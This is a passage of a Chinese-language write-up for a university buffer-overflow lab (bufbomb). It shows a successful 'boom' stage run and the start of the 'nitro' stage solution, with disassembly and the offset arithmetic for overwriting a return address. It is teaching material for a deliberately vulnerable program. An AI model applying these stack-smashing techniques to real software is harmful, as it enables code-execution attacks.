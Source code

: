```shell
$ ./hex2raw < boom.txt | ./bufbomb -u U201814791
Userid: U201814791
Cookie: 0x675abfd7
Type string:Boom!: getbuf returned 0x675abfd7
VALID
NICE JOB!
```

## nitro

### 任务

与阶段四类似，构造一攻击字符串使得`getbufn`函数（注，在`Nitro`阶段，`bufbomb`将调用`testn`函数和`getbufn`函数，见`bufbomb.c`）返回`cookie`值至`testn`函数，而不是返回值`1`。此时，需要将`cookie`值设为函数返回值，复原/清除所有被破坏的状态，并将正确的返回位置压入栈中，然后执行`ret`指令以正确地返回到`testn`函数。

与`boom`不同的是，本阶段的每次执行栈（`ebp`）均不同，所以你要想办法保证每次都能够正确复原栈被破坏的状态，以使得程序每次都能够正确返回到`testn`。

### 题解

定位到`testn`，观察到`old ebp = esp+0x24+0x4= esp+ 0x28`，且调用`getbufn`后的返回地址为`0x8048e15`。

```asm
08048e01 <testn>:
 8048e01:	55                   	push   %ebp
 8048e02:	89 e5                	mov    %esp,%ebp
 8048e04:	53                   	push   %ebx
 8048e05:	83 ec 24             	sub    $0x24,%esp
 8048e08:	e8 da ff ff ff       	call   8048de7 <uniqueval>
 8048e0d:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048e10:	e8 ef 03 00 00       	call   8049204 <getbufn>
 8048e15:	89 c3                	mov    %eax,%ebx
 ...
```

定位到`getbufn`，发现栈帧的大小发生了变化。此时栈帧大小为`0x218+0x4=0x21c`，`buf`相对于`ebp`的偏移为`-0x208`。故需要填充的字节为`0x208+0x4+0x4`。最后四个字节为返回地址。

```asm
08049204 <getbufn>:
 8049204:	55                   	push   %ebp
 8049205:	89 e5                	mov    %esp,%ebp
 8049207:	81 ec 18 02 00 00    	sub    $0x218,%esp
 804920d:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
 8049213:	89 04 24             	mov    %eax,(%esp)
 8049216:	e8 37 fb ff ff       	call   8048d52 <Gets>
 804921b:	b8 01 00 00 00       	mov    $0x1,%eax
 8049220:	c9                   	leave  
 8049221:	c3                   	ret    
 8049222:	90                   	nop
 8049223:	90                   	nop
```
